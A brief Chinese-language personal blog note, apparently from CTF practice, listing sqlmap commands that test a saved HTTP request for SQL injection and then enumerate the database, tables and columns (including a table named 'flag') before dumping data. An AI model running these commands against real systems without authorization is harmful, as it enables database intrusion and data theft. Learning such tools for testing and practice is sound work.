 ```yaml
---
title: sqlmap_help
date: 2022-03-26 10:34:00 +0800
categories: [随笔]
tags: [生活]
pin: true
author: 理性暗面

toc: true
comments: true
typora-root-url: ../../lixanm.github.io
math: false
mermaid: true

image:
  src:
  alt: 
---
```


# sqlmap

python sqlmap.py -r r.txt	//找漏洞

python sqlmap.py -r r.txt -current-db	//找库

python sqlmap.py -r r.txt --tables -D sql_test	//找库下的文件

python sqlmap.py -r r.txt --columns -T flag -D sql_test	//找文件下的字段

python sqlmap.py --purge

python sqlmap.py -r r.txt --dump	//查找数据









